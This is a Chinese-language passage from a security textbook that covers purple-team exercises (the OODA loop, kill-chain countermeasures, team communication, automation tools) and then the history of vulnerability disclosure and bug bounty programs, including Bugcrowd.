在选择 IR 工具时，很重要的是要确保调查期间使用的分析工具可以轻松移除且不留下任何痕迹。能够轻松移除工具是一个重要因素，它使你能够灵活地采用自适应方法进行调查。有许多经得起考验的商业产品，但也有大量可用的开源或免费工具。我鼓励你尝试商业工具和免费工具的组合，直到你知道在你的环境和什么情况下什么效果最好。例如，一家已投资 Carbon Black Response 的组织可能还想尝试 Google Rapid Response (GRR) 并真正比较两者的优劣。紫队演练为蓝队在响应事件时使用不同工具提供了机会。这使组织能够更好地了解哪些工具在其环境中效果最好，哪些工具在特定场景中效果最好。

## 常见蓝队挑战

如同技术的所有方面一样，蓝队工作也面临挑战。基于签名的工具在无法检测复杂攻击时可能导致错误的安全感。许多组织不愿用基于机器学习的工具取代基于签名的工具，通常计划在当前基于签名的工具许可证到期后再升级。


那些同类组织常常成为攻击（包括勒索软件）的受害者，如果它们进行过红队或紫队演练，本可以预防这类攻击。此类演练本可以凸显替换效果较差的基于签名的工具的重要性，并揭示许多此类工具所提供的虚假安全感。

一些组织低估威胁搜寻，犹豫是否要完善其威胁搜寻计划，担心这会影响其他重要工作。人手不足且资金匮乏的组织往往最能从完善其蓝队（和紫队）运作中受益，以确保在有限资源下做出最佳决策。对网络安全采取被动方式风险极高，而且有点过时。我们现在了解如何通过威胁搜寻和紫队演练更好地准备网络攻击。由于存在支持红队、蓝队和紫队演练的免费工具，因此重要的是要进行人员和培训投资，并在整个组织中展示和理解“搜寻威胁”的价值。

在风险承受能力很强的组织中，展示“搜寻威胁”的价值并获得组织支持都很困难。当组织过度依赖风险转移机制（例如使用服务提供商）但不密切监控它们，或者严重依赖保险并选择不实施某些安全控制或功能时，往往会发生这种情况。与安全的大多数方面一样，你必须始终将论点集中在对业务重要的事情上。如果你关于良好安全的论点植根于公司已经关心的事情（例如人身安全或利润最大化），那么最好通过展示（例如网络攻击如何危及人类生命，或网络攻击导致的运营损失如何影响盈利能力和公司整体估值）来构建你的论点。

## 紫队运作

现在我们已在第7章中介绍了红队的基础知识，在本章中介绍了蓝队的基础知识，让我们深入了解紫队运作的更多细节。我们首先讨论指导紫队工作的核心概念——用于干扰攻击的决策框架和方法论。在介绍完这些核心原则后，我们将讨论如何衡量安全态势的改进以及紫队沟通。

## 决策框架

美国空军上校约翰·博伊德创建了OODA循环，这是一个由四个阶段组成的循环决策框架。OODA循环的四个阶段——观察（Observe）、定向（Orient）、决策（Decide）和行动（Act）——旨在描述单个决策者，而非群体。现实生活稍微更具挑战性，因为它通常需要与他人协作并达成共识。以下是OODA循环各阶段的简要描述：

- 观察（Observe）我们的观察是决策过程的原始输入。必须对原始输入进行处理，才能做出决策。
- 定向（Orient）当我们考虑之前的经验、个人偏见、文化传统以及手头掌握的信息时，我们就在进行定向。这是OODA循环中最重要的部分，即有意识地处理信息，在意识到自身倾向和偏见的同时对信息进行过滤。定向阶段将产生决策选项。
- 决策（Decide）然后我们必须对一个选项做出决策。这个选项实际上是一个必须经过测试的假设。
- 行动（Act）采取我们决定采取的行动。测试我们的假设。

由于OODA循环会重复自身，流程会重新开始，即观察所采取行动的结果。这一决策框架对于指导紫队演练中攻击方和防守方所做的决策至关重要。在紫队演练中，双方团队都有许多决策点。讨论双方团队所做的决策是有益的，而OODA循环为这些讨论提供了一个框架。

使用决策框架的目标之一是更好地了解我们如何做出决策，以便改进这些决策的结果。更好地了解自己有助于我们掩饰意图，从而在对手看来更加不可预测。OODA循环还可以用来澄清对手的意图，并试图为对手制造混乱和无序。如果你的OODA循环运行节奏比对手更快，这会让你处于进攻模式，并可能让对手处于防御态势。

## 干扰杀伤链

让我们从紫队演练或攻防视角来看看洛克希德·马丁网络杀伤链框架。毕竟，该框架的目标是识别和防止网络入侵。我们将从攻防视角来审视该框架的各个阶段：侦察、武器化、投递、利用、安装、命令与控制（C2）以及目标行动。

紫队工作与红队演练在多个方面有所不同，包括团队间共享的信息量。一些紫队演练从侦察阶段开始，在此期间红队将执行开源情报（OSINT）收集，收集电子邮件地址并从各种来源收集信息。许多紫队工作较少关注侦察阶段，而是更多地依赖访谈和技术文档来收集目标信息。了解公众可获得哪些类型的信息仍然有价值。红队仍可选择使用社交媒体进行研究，并将关注点放在组织的时事和新闻稿上。红队还可以从目标面向外部的资产收集技术信息，以检查信息泄露问题。

干扰侦察阶段是一项挑战，因为红队在此阶段的大多数活动都是被动的。蓝队可以收集与侦察阶段独有的浏览器行为方面的信息，并与其他IT团队合作，了解更多关于网站访问者和查询的信息。蓝队学到的任何信息都将用于对围绕侦察活动的防御进行优先级排序。

在武器化阶段，红队准备攻击。它会准备命令与控制（C2）基础设施，选择要使用的漏洞利用，定制恶意软件，并总体上对载荷进行武器化。蓝队无法在武器化发生时检测到它，但可以从事后所见内容中学习。蓝队将对载荷进行恶意软件分析，收集包括恶意软件时间线在内的信息。旧恶意软件通常不如新恶意软件令人担忧，新恶意软件可能已针对该组织进行了定制。将收集文件和元数据以供将来分析，蓝队将确定痕迹是否与任何已知攻击活动相关联。一些紫队演练可以专门专注于生成一段自定义恶意软件，以确保蓝队有能力对其进行逆向分析，从而采取适当的响应措施。

在投递阶段发起攻击。红队会发送钓鱼邮件、通过USB引入恶意软件，或通过社交媒体或水坑攻击投递载荷。在投递阶段，蓝队终于有机会检测并阻止攻击。蓝队将分析投递机制以了解上游功能。蓝队将使用武器化痕迹创建入侵指标，以便在载荷的投递阶段检测新载荷，并收集所有相关日志进行分析，包括电子邮件、设备、操作系统、应用程序和Web日志。

在利用阶段，红队获得对受害者的访问权限。为了发生利用，必须利用软件、硬件、物理安全、人为漏洞或配置错误。红队会通过利用例如服务器漏洞来自行触发利用，或者用户会通过单击电子邮件中的链接来触发漏洞利用。蓝队通过强化环境、对用户进行钓鱼攻击等安全主题的培训、对开发人员进行安全编码技术培训，以及以多种方式部署安全控制来保护环境，从而保护组织免受利用。蓝队进行取证调查，以了解从攻击中可以学到的一切。

安装阶段是红队在目标环境中建立持久访问权限的阶段。持久访问可以通过安装服务或配置自动运行键，在各种设备（包括服务器或工作站）上建立。在此阶段之前，蓝队会执行防御操作，例如在系统上安装基于主机的入侵防御系统（HIPS）、防病毒软件或监控进程，以减轻攻击的影响。一旦恶意软件被检测并提取，蓝队可能会提取恶意软件的证书并进行分析，以了解恶意软件是否需要


管理员权限。同样，尝试确定所使用的恶意软件是新是旧，以帮助判断恶意软件是否是针对该环境定制的。

在命令与控制（C2）阶段，红团队或攻击者会与 C2 基础设施建立双向通信。这通常是通过能够从受保护网络内部自由传输到攻击者的协议来完成的。使用电子邮件、Web 或 DNS 协议是因为它们通常不会被阻止出站。然而，C2 可以通过多种机制实现，包括无线或蜂窝技术，因此在识别 C2 流量和机制时，采取广泛的视角很重要。C2 阶段是蓝团队通过阻止 C2 通信来阻止攻击的最后机会。蓝团队可以通过恶意软件分析来发现关于 C2 基础设施的信息。如果所有入站和出站流量都经过代理，或者流量被沉井处理，则大部分网络流量可能会受到控制。

在杀伤链的“目标行动”阶段，攻击者（或红团队）会完成其目标。会收集凭据，发生权限提升，在整个环境中实现横向移动，并收集、修改、销毁或外泄数据。蓝团队旨在检测并响应攻击。这时可以演练“备选结局”。蓝团队在响应攻击时可以尝试不同的方法并使用不同的工具。通常会完全实施 IR 流程，包括让高管和法务团队、关键业务利益相关者以及组织 IR 计划中确定的其他任何人员参与。在现实世界的攻击中，这时可能需要让通信和公共关系团队、执法机构、银行、供应商、合作伙伴、母公司和客户参与。在紫团队演练中，组织可以选择进行桌面演练，从而允许进行完整的攻击模拟。蓝团队将旨在检测横向移动、权限提升、账户创建、数据外泄和其他攻击者活动。预先部署事件响应和数字取证工具将允许快速响应程序的发生。在紫团队演练中，蓝团队还将旨在遏制、清除并从事件中完全恢复，通常会与红团队合作以优化其工作。

## 杀伤链对策框架

杀伤链对策框架的重点在于能够检测、拒绝、干扰、降级、欺骗和遏制攻击者，并打破杀伤链。实际上，最好在检测或拒绝对策阶段尽早捕获攻击，而不是在攻击后期的干扰或降级阶段。概念很简单：对于前一节讨论的洛克希德·马丁杀伤链中的每个阶段，问问自己能做些什么（如果有的话）来检测、拒绝、干扰、降级、欺骗或遏制这次攻击或攻击者？事实上，紫团队演练可以专注于对策框架中的某个阶段。例如，紫团队演练可以专注于检测机制，直到它们被完善。

让我们专注于杀伤链对策框架中的检测部分。我们将通过一些示例，了解如何在杀伤链的每个阶段检测对手的活动。检测侦察具有挑战性，但 Web 分析可能会提供一些信息。

检测武器化实际上是不可能的，因为攻击准备通常不会在目标环境中进行，但网络入侵检测和防御系统（NIDS 和 NIPS）可以提示您有效载荷的一些特征。训练有素的用户可以在钓鱼攻击发送时检测到它，代理解决方案也可以。包括基于主机的入侵检测系统（HIDS）和反恶意软件解决方案在内的终端安全解决方案可能会在利用和安装阶段检测到攻击。命令和控制（C2）流量可能会被 NIDS/NIPS 检测并阻止。日志或用户行为分析（UBA）可用于在“目标行动”阶段检测攻击者（或红团队）活动。这些只是杀伤链对策框架可以应用的几个示例。每个环境都不同，每个组织都会有不同的对策。

现在让我们换个角度，专注于杀伤链的 C2 阶段，并讨论每个对策阶段——检测、拒绝、干扰、降级、欺骗和遏制——如何抵御它。网络入侵检测系统可能会检测 C2 流量。防火墙可以配置为拒绝 C2 流量。可以使用网络入侵防御系统来干扰 C2 流量。可以使用蜜坑或沉井来降级 C2 流量，DNS 重定向可用于 C2 流量的欺骗策略。我见过组织使用这些框架来创建矩阵，以组织其紫团队工作。在组织工作时，这能确保您心中有全局，是一种很好的方法。

## 沟通

紫团队工作涉及蓝团队和红团队之间详细且频繁的沟通。一些紫团队项目是短期的，不会产生大量数据（例如，针对正在制造的单个设备测试安全控制措施的紫团队工作）。然而，旨在保护企业的持续性紫团队工作可能会产生大量数据，尤其是在考虑到 Mitre ATT&CK 矩阵和洛克希德·马丁网络杀伤链与对策框架等指南时。

应在开始测试和响应活动之前为每个紫团队工作制定沟通计划。紫团队演练中的沟通可以采取会议、协作工作和各种报告的形式，包括状态报告、测试结果报告和事后报告（AAR）。某些交付成果将基于证据。蓝团队会在发现指标时，将妥协指标（IOC）纳入当前安全环境。红团队必须记录其所有测试活动的时间和方式的所有细节。蓝团队必须记录攻击被检测和解决的时间和方式。大量取证镜像、内存转储和数据包捕获将被创建并存储以备将来参考。

目标是确保不遗漏任何经验教训，不错过任何改进机会。紫团队工作可以加快平均检测时间、平均响应时间和平均修复时间等指标的改进。衡量检测或响应时间的改进，并将组织安全态势的改进传达给组织，有助于为紫团队工作赢得支持。第 7 章中的许多沟通注意事项也适用于紫团队工作，特别是需要一份能够捕捉不同视角意见的 AAR。来自各种来源的反馈至关重要，可以显著提高应对网络威胁的能力。AAR 促使组织购买更好的设备、完善流程、投入更多培训、更改工作安排以确保用餐时间没有人员空缺、完善联系流程、增加对某些工具的投资或移除无效工具。归根结底，蓝团队和红团队应该觉得他们的障碍已得到解决。

### 紫团队优化

最成熟的组织在其环境中配置了安全自动化和编排，以大大加快其攻防工作。安全自动化涉及使用自动系统来检测和防止网络威胁。安全编排是指将您的安全应用程序和流程连接并集成在一起。当您结合安全自动化和编排时，可以自动执行任务（或播放列表），并集成安全工具，使它们在整个环境中协同工作。许多安全任务可以自动化和编排，包括攻击、响应以及报告等其他运营流程。

安全自动化和编排可以消除重复性、琐碎的任务并简化流程。它还可以大大加快响应时间，在某些情况下将分类过程缩短到几分钟。许多组织从简单任务开始使用安全自动化和编排。一个良好的起点可能是与钓鱼调查或指标阻断相关的重复性任务。另外，针对恶意软件分析的自动化和编排是开始尝试流程优化的好地方。

优化您的紫团队工作可以在安全计划中带来一些真正令人兴奋的进步。使用像 AttackIQ 的 FireDrill 这样的开源工具进行攻击自动化，并将其与 Mitre ATT&CK 矩阵等框架相结合，可以快速改善您的紫团队能力和安全态势。

优化攻击后，了解如何自动化和编排您的防御活动很重要。细致的工作流可以进行编排。Phantom 提供免费社区版，可用于试验 IR 剧本。剧本可以编写，而无需具备广泛的编码知识，也可以使用 Python 进行自定义。考虑将以下剧本逻辑应用于环境，并编排不同工具之间的交互：


由防病毒软件（AV）或 IDS、终端安全检测到恶意软件 → 对虚拟机进行快照 → 使用网络访问控制（NAC）隔离设备 → 分析内存 → 分析文件声誉 → 在沙箱中执行文件 → 查找地理位置 → 在终端上搜寻文件 → 阻止哈希 → 阻止 URL

紫队流程优化也是可行的。有许多优秀的开源事件响应（IR）协作工具。我最喜欢的一些来自 TheHive 项目。TheHive 是一个分析和安全运营中心（SOC）编排平台，内置了 SOC 工作流和协作功能。所有调查都分组为案例，案例被分解为任务。TheHive 具有一个 Python API，允许分析师从 SIEM 系统或电子邮件等不同来源发送警报并创建案例。TheHive 项目还制作了一些补充工具，例如 Cortex，这是一种用于批量数据分析的自动化工具。Cortex 可以从 TheHive 的存储库中提取 IOC。Cortex 为 VirusTotal、DomainTools、PassiveTotal 和 Google Safe Browsing 等热门服务提供分析器，仅举几例。TheHive 项目还创建了 Hippocampe，这是一种威胁馈送聚合工具，允许您通过 REST API 或 Web UI 查询它。

预算充足的组织或禁止使用开源工具的组织有许多商业产品可用，以帮助他们自动化和编排流程以及攻防活动。Phantom 的商业版、Verodin、ServiceNow 以及各种商业 SIEM 和日志聚合器等工具可以集成以优化流程。

## 摘要

在任何技能上成为大师总需要热情和反复练习。紫队允许您的进攻性和防御性安全团队之间进行网络对练。结果是两个团队都能提升自己的技能，组织也因此获益良多。紫队工作将红队攻击和蓝队响应结合为单一工作，协作滋生改进。任何组织都不应认为其防御是不可攻破的。测试攻击和防御能力的有效性，既能保护您在网络安全控制方面的投资，又能为迈向成熟铺平道路。

## 进一步阅读

- 共生关系：OODA 环、直觉与战略思维 (Jeffrey N. Rule) www.dtic.mil/dtic/tr/fulltext/u2/a590672.pdf
- AttackIQ FireDrill https://attackiq.com/
- Carbon Black Response https://www.carbonblack.com/products/cb-response/
- 网络杀伤链 https://www.lockheedmartin.com/us/what-we-do/aerospace-defense/cyber/cyber-kill-chain.html
- Google Rapid Response https://github.com/google/grr
- 国际标准化组织，ISO 27001 和 270 https://www.iso.org/isoiec-27001-information-security.html
- 美国国家标准与技术研究院计算机安全事件处理指南 (NIST IR 800-61r2) https://csrc.nist.gov/publications/detail/sp/800-61/archive/2004-01-16
- 美国国家标准与技术研究院 (NIST) 网络安全框架 https://www.nist.gov/cyberframework
- Terraform https://www.terraform.io
- TheHive、Cortex 和 Hippocampe https://thehive-project.org/

## 参考文献

- 1. Lionel Giles, 《孙子兵法》，Abington, Oxon: Routledge, 2013.
- 2. William Langewiesche, “欢迎来到暗网，一片隐形世界大战打响、黑客自由游荡的荒野,” Vanity Fair, 2016 年 9 月 11 日.

## 第 9 章

## 漏洞赏金计划

本章深入探讨漏洞赏金计划话题，并呈现讨论的双方——从软件供应商的角度和安全研究人员的角度。我们详细讨论了漏洞披露话题，包括导致当前漏洞赏金计划状态的趋势历史。例如，我们从所有角度讨论完全公开披露，让您决定采取哪种方法。还讨论了漏洞赏金计划的类型，包括企业、政府、私有、公开和开源。然后，我们从程序所有者（供应商）和研究人员两个角度调查 Bugcrowd 漏洞赏金平台。我们还查看两者的界面。接下来，我们讨论作为研究人员通过查找漏洞谋生。最后，本章以从软件开发人员的角度讨论事件响应以及如何处理收到的漏洞报告来结束。

本章介绍了整个漏洞披露报告和响应流程。

在本章中，我们讨论以下主题：

- 漏洞披露历史
- 漏洞赏金计划
- Bugcrowd 深入探讨
- 通过查找漏洞谋生
- 事件响应

### 漏洞披露历史

软件漏洞与软件本身一样悠久。简单来说，软件漏洞是软件设计或实现中的弱点，可能被攻击者利用。应当注意的是，并非所有错误都是漏洞。我们将利用可利用性因素来区分错误与漏洞。2015 年，Synopsys 制作了一份报告，展示了分析 100 亿行代码的结果。研究表明，商业代码每 1000 行代码（LoC）有 0.61 个缺陷，而开源软件每 1000 行 LoC 有 0.76 个缺陷；然而，同一项研究还显示，商业代码与行业标准（如 OWASP Top 10）相比表现更好。¹ 由于现代应用程序通常拥有数十万甚至数百万行代码，一个典型的应用程序可能有几十个安全漏洞。可以肯定的是：只要有人类开发软件，就会存在漏洞。此外，只要存在漏洞，用户就会面临风险。因此，安全专业人员和研究人员有责任在攻击者利用这些漏洞并危害用户之前，预防、发现并修复这些漏洞。

首先，可以为公共安全提出论点。将他人的安全置于自己之上是高尚的事。然而，必须考虑某项特定行动是否符合公共安全利益。例如，如果一个漏洞长期不报告且未修补，而攻击者知晓该问题并利用零日漏洞造成危害，公众是否安全？另一方面，当安全研究人员在给软件供应商修复问题的机会之前就发布漏洞报告时，公众是否安全？有人会认为，发布和修复之间这段时间会使公众处于风险之中；另有人认为，这是一种必要之恶，为了更大的利益，而且修复漏洞的最快方式是通过羞辱软件开发者。对此事没有共识；相反，这是一个大有争议的话题。在本书中，本着道德黑客的精神，我们将倾向于道德披露或协调披露（如后文定义）；然而，我们希望以引人入胜的方式呈现这些选项，并让您，读者，自行决定。

供应商面临披露两难：发布漏洞信息会改变软件对用户的价值。正如 Choi 等人所述，用户购买软件并期望该软件具有一定质量。当发生更新时，一些用户认为价值增加，另一些用户认为价值减少。² 更糟糕的是，攻击者也会根据披露的漏洞数量对目标价值自行判断。如果软件从未更新过，攻击者可能认为目标易受评估且存在许多漏洞。另一方面，如果软件经常更新，这可能表明供应商进行了更强大的安全工作，攻击者可能会转而攻击其他目标。然而，如果已修补的漏洞类型表明存在更广泛的问题——也许是更广泛的漏洞类别，例如可远程利用的缓冲区溢出——那么攻击者可能会认为还有更多漏洞可发现，并可能像飞蛾扑火或鲨鱼嗅血般被吸引过来。

常见的披露方法包括完全供应商披露、完全公开披露和负责任披露。在以下部分中，我们将描述这些概念。


注 这些术语有争议，有些人可能更喜欢“部分供应商披露”作为一种选择，以处理概念验证（POC）代码被保留且其他方参与披露过程的情况。为了简单起见，在本书中我们将沿用上述说法。

### 完全供应商披露

从大约 2000 年开始，一些研究人员更有可能与供应商合作并执行完全供应商披露，即研究人员将漏洞完全披露给供应商，而不向任何其他方披露。这种披露方式有多种原因，包括担心法律追责、缺乏社交媒体渠道以


广泛传播该信息，并整体尊重软件开发人员，这促使人们希望与厂商合作，并简单地修复漏洞。

这种方法常常导致修补漏洞需要无限期的时间。许多研究人员会直接移交信息，然后等待，无论需要多久，或许是无限期，直到软件厂商修复了漏洞——如果他们愿意修复的话。这种披露方法的问题显而易见：厂商缺乏修补漏洞的动力。毕竟，如果研究人员愿意无限期等待，何必费心？此外，修复某些漏洞的成本可能非常高，在社交媒体出现之前，不提供漏洞补救几乎没有什么后果。

此外，软件厂商面临一个问题：如果他们在没有公开披露的情况下修补安全问题，许多用户不会修补软件。另一方面，攻击者可以逆向工程补丁并发现问题，使用我们将在本书中讨论的技术，从而让未打补丁的用户比以前更脆弱。因此，这种方法面临的问题组合催生了下一种披露形式——完全公开披露。

## 完全公开披露

这是对软件厂商缺乏及时行动的回应，许多安全研究人员决定自行解决问题。有无数小册子、邮件列表和 Usenet 群组讨论漏洞，包括臭名昭著的 Bugtraq 邮件列表，该列表创建于 1993 年。多年来，黑客社区的挫败感不断加深，因为厂商被视为既不公平对待，也不认真对待研究人员。2001 年，安全顾问 Rain Forest Puppy 表态，他只给厂商一周时间做出回应，否则他将完全公开发布漏洞。3 2002 年，臭名昭著的 Full Disclosure 邮件列表应运而生，并作为一个平台运作了十多年，研究人员可以在其中自由发布漏洞详情，无论是否通知厂商。4 该领域的一些知名创始人，如 Bruce Schneier，支持这种策略，认为这是获得结果的唯一方式。5 其他创始人，如 Marcus Ranum，持不同意见，称我们并没有因此更安全，反而更不安全。6 再次，对此事几乎没有共识；我们将让您，读者，自行决定站在哪一边。

这种方法显然有好处。首先，有人声称，软件厂商在受到羞辱后最有可能修复问题。7 另一方面，这种方法并非没有问题。这种方法导致厂商没有足够的时间以适当方式响应，并可能导致厂商仓促行事而未能修复实际问题。8 当然，那些把戏很快会被其他研究人员发现，过程重复。当软件厂商处理其未开发的库中的漏洞时，会出现其他困难。例如，当 OpenSSL 出现 Heartbleed 问题时，成千上万的网站、应用程序和操作系统发行版变得易受攻击。这些软件开发者都必须迅速吸收该信息，并将库的修复后上游版本纳入其应用程序中。这需要时间，一些厂商比其他厂商行动更快，在此期间，许多用户的安全性较低，因为攻击者在发布后几天内就开始利用该漏洞。

完全公开披露的另一个优势是警告公众，以便人们在发布修复程序之前采取缓解措施。这一观念基于这样一个前提：黑帽子很可能已经知道该问题，因此武装公众是一件好事，在某种程度上使攻防双方处于同等地位。

在此过程中，公共危害的问题依然存在。完全公开披露是让公众更安全还是更不安全？要完全理解这个问题，人们必须意识到攻击者会自行研究，可能已经知道某个问题，并在漏洞披露前就已利用它来攻击用户。同样，我们将把这个问题的答案留给您自行决定。

## 负责任披露

迄今，我们已讨论了两个极端：完全厂商披露和完全公开披露。现在，让我们看看介于两者之间的一种披露方法：负责任披露。在某种程度上，上述的 Rain Forest Puppy 迈出了负责任披露的第一步，即他给厂商一周时间建立有意义的沟通，只要厂商保持这种沟通，他就不会披露漏洞。以这种方式，研究人员和厂商之间可以达成妥协，只要厂商合作，研究人员也会合作。这似乎是两全其美的办法，开启了一种新的漏洞披露方法。

2007 年，Microsoft 的 Mark Miller 正式呼吁采用负责任披露。他阐述了理由，包括需要给厂商（例如 Microsoft）留出时间，彻底修复问题（包括周围代码），以最大限度减少过多补丁的可能性。9 Miller 说得有些道理，但其他人认为，如果 Microsoft 等公司长期忽视补丁，最初就不会出现完全公开披露。10 对于持这种观点的人来说，负责任披露偏向厂商，并暗示如果研究人员不这样做，厂商就不承担责任。Microsoft 本身后来让步，改变了立场，并在 2010 年再次呼吁使用“协调漏洞披露”（CVD）一词代替。11 在此期间，Google 坚持在披露前修复任何安全问题的硬性截止期限为 60 天，从而施加了压力。12 这一举措似乎是针对 Microsoft 的，因为 Microsoft 有时需要超过 60 天来修复问题。后来，在 2014 年，Google 成立了一个名为 Project Zero 的团队，旨在寻找并披露安全漏洞，使用 90 天的宽限期。13

不过，负责任披露的标志是在合理时间后披露的威胁。计算机应急响应小组（CERT）协调中心（CC）成立于 1988 年，以应对 Morris 蠕虫，并在近 30 年来一直作为漏洞和补丁信息的协调者。14 CERT/CC 在处理漏洞报告时设定了 45 天的宽限期，即 CERT/CC 将在 45 天后发布漏洞数据，除非存在特殊情况。15 安全研究人员可以将漏洞提交给 CERT/CC 或其委托实体之一，CERT/CC 将处理与厂商的协调工作，并在补丁可用或 45 天宽限期后发布漏洞。

## 不再免费提供漏洞

迄今，我们已讨论了完全厂商披露、完全公开披露和负责任披露。所有这些漏洞披露方法都是免费的，即安全研究人员花费无数小时寻找安全漏洞，并出于各种与经济补偿不直接相关的原因，出于公共利益披露漏洞。事实上，在这种情况下，研究人员很难获得报酬，而不会被视为在敲诈厂商。

2009 年，局势发生了变化。在年度 CanSecWest 会议上，三位著名黑客 Charlie Miller、Dino Dai Zovi 和 Alex Sotirov 表了态。16 在由 Miller 主导的演示中，Dai Zovi 和 Sotirov 高举一块写着“NO MORE FREE BUGS”的纸板牌子。研究人员对研究和发现漏洞所需时间与其获得报酬之间不成比例的问题变得更加直言不讳，这只是时间问题。安全领域并非所有人都同意，有些人公开抨击这个想法。17 其他人采取更务实的方法，指出尽管这三位研究人员已经积累了足够的“社会资本”来要求高额咨询费，但其他人将继续免费披露漏洞以建立他们的地位。18 无论如何，这种新情绪在安全领域引发了轩然大波。对一些人来说这是赋权，对另一些人来说则令人恐惧。毫无疑问，安全领域正朝着研究人员而非厂商转变。

## 漏洞赏金计划

“漏洞赏金”一词最早由 Netscape Communication Corporation 的 Jarrett Ridlinghafer 于 1995 年使用。19 与此同时，iDefense（后被 VeriSign 收购）和 TippingPoint 在研究人员和软件之间充当中介，帮助赏金流程，促进信息流动和报酬。2004 年，Mozilla Foundation 为 Firefox 建立了漏洞赏金计划。20 2007 年，Pwn2Own 竞赛在 CanSecWest 上启动，成为安全领域的一个转折点，研究人员聚集在一起展示漏洞及其利用程序，以赢得奖品和现金。21 后来，2010 年 Google 启动了其计划，2011 年 Facebook 跟进，2014 年 Microsoft Online Services 计划跟进。22 现在有数百家公司为漏洞提供赏金。

漏洞赏金的概念是软件厂商试图以负责任的方式回应漏洞问题。毕竟，安全研究人员在最好的情况下，正在帮助公司节省大量发现漏洞的时间和金钱。在


另一方面，在最坏的情况下，如果安全研究人员的报告处理不当，可能会被过早曝光，因此公司不得不花费大量时间和金钱进行损害控制。因此，一个有趣而脆弱的经济体系应运而生，因为供应商和研究人员都有兴趣和动机共同合作。

## 漏洞赏金计划的类型

存在几种类型的漏洞赏金计划，包括企业型、政府型、私有型、公有型和开源型。

## 企业和政府

多家公司，包括 Google、Facebook、Apple 和 Microsoft，直接运行自己的漏洞赏金计划。最近，Tesla、United、GM 和 Uber 也推出了自己的计划。在这些情况下，研究人员直接与公司交互。如前本章所讨论的，每家公司对漏洞赏金计划都有自己的看法，并按其自身方式运行计划。因此，向研究人员提供的激励级别各不相同。政府也参与其中，美国政府于 2016 年启动了一个名为“骇入五角大楼”（Hack the Pentagon）的成功漏洞赏金计划，23 该计划持续了 24 天。约 1,400 名黑客发现了 138 个先前未知的漏洞，并获得了约 75,000 美元的奖励。24 由于这些计划的独占性，研究人员在发布前应仔细阅读计划条款，并决定是否希望与公司或政府合作。

## 私有型

一些公司直接或通过第三方建立私有漏洞赏金计划，以寻求一小群经过审核的研究人员的帮助。在这种情况下，公司或第三方对研究人员进行审核并邀请他们参与。私有漏洞赏金计划的价值在于报告的保密性（从供应商角度来看）以及研究人员池规模的缩小（从研究人员角度来看）。研究人员面临的一个挑战是，他们可能会花费大量时间寻找漏洞，却发现该漏洞已被供应商发现并被视为“重复项”，25 不符合赏金条件。私有计划降低了这种可能性。缺点与此相关：研究人员池规模较小意味着漏洞可能不被报告，从而给供应商带来虚假的安全感，这通常比完全没有安全感更糟糕。

## 公有型

公有漏洞赏金计划就是公开的。这意味着任何研究人员都可以提交报告。在这种情况下，公司直接或通过第三方宣布漏洞赏金计划的存在，然后等待报告。这些计划相对于私有计划的优势显而易见——拥有更大的研究人员池，可能会发现更多漏洞。另一方面，只有第一个研究人员能获得赏金，这可能会让一些最优秀的研究人员望而却步，他们可能更喜欢私有赏金计划。2015 年，Google Chrome 团队为 Chrome 浏览器提供无限量的赏金池，打破了公开赏金计划的所有障碍。²⁶ 在此之前，研究人员必须在 CanSecWest 的一天内争夺有限的奖励池。现在，研究人员可以全年提交报告，争夺无限量的资金池。当然，公告底部有必要的法律条款，说明该计划是实验性的，Google 随时可以更改。²⁷ 公有漏洞赏金计划自然是最受欢迎的计划，并且可能会继续保持这种地位。

## 开源型

存在多项旨在保障开源软件安全的举措。一般来说，开源项目缺乏资金，因此没有公司可能拥有的资源来处理安全漏洞，无论是内部处理还是由他人报告。开源技术改进基金（OSTIF）是支持开源社区的努力之一。²⁸ OSTIF 由个人和团体资助，他们希望为被他人使用的软件带来改变。支持是通过设立漏洞赏金、向开源项目提供直接资金以注入资源修复问题，以及安排专业审计来提供的。受支持的开源项目包括历史悠久的 OpenSSL 和 OpenVPN 项目。这些草根项目是崇高的事业，值得研究人员投入时间和捐助者投入资金。


注意 OSTIF 是一家在美国政府注册的 501(c)(3) 非营利组织，因此符合美国公民可抵税捐款的资格。

## 激励

漏洞赏金计划提供许多非官方和官方激励。早期，奖励包括信件、T恤、礼品卡，仅仅是吹嘘的资本。然后，在 2013 年，Yahoo! 在受到舆论压力后，开始向研究人员提供超出纪念品的奖励。社区开始指责 Yahoo! 在奖励上吝啬，为漏洞报告提供 T 恤或微不足道的礼品卡。在一封公开信中，Yahoo! 漏洞发现主管 Ramses Martinez 解释说，他一直自掏腰包资助这项工作。从那时起，Yahoo! 将每份经验证的报告的奖励提高到 150 至 15,000 美元。²⁹ 从 2011 年到 2014 年，Facebook 提供了专属的“白帽漏洞赏金计划”Visa 借记卡。³⁰ 这种可充值的黑卡十分抢手，在安全会议上出示时，可以让研究人员获得认可，也许还能被邀请参加派对。³¹ 如今，漏洞赏金计划仍然提供一系列奖励，包括 Kudos（允许研究人员排名和获得点数的积分）、纪念品以及金钱

## 围绕漏洞赏金计划的争议

并非所有人都同意使用漏洞赏金计划，因为存在一些有争议的问题。例如，供应商可能使用这些平台对研究人员进行排名，但研究人员通常无法对供应商进行排名。一些漏洞赏金计划是为收集报告而设立的，但供应商可能无法与研究人员妥善沟通。此外，可能无法判断“重复项”的回复是否准确。此外，评分系统可能是武断的，无法准确反映漏洞披露的价值，考虑到报告在黑市上的价值。因此，每位研究人员都需要决定漏洞赏金计划是否适合自己，以及利益是否大于弊端。

## 流行的漏洞赏金计划促进者

一些公司应运而生，以促进漏洞赏金计划。以下公司成立于 2012 年，并仍在服务于这一关键领域：

- Bugcrowd
- HackerOne
- Synack

每家公司都有其优势和劣势，但我们将只深入了解其中一家：Bugcrowd。

## 深入了解 Bugcrowd

Bugcrowd 是领先的漏洞接收和管理众筹平台之一。它允许多种类型的漏洞赏金计划，包括私有和公有计划。私有计划不向公众发布，但 Bugcrowd 团队维护着一支在该平台上经过验证的顶尖研究人员队伍，并可以根据提供的标准邀请其中一些研究人员加入计划。为了参与私有计划，研究人员必须通过第三方进行身份验证。相反，研究人员可以自由提交公有计划。只要他们遵守平台和计划的条款，就可以在平台上保持活跃状态，并继续参与赏金计划。但是，如果研究人员违反平台条款或赏金计划的任何部分，他们将被禁止访问该网站，并失去任何潜在收入。这种机制倾向于让诚实的研究人员保持诚实。当然，俗话说，“黑客总会黑”，但至少规则已经明确界定，双方不应有任何意外。


注意 你已被警告：玩得愉快，否则将失去在 Bugcrowd 或其他网站参与的特权！

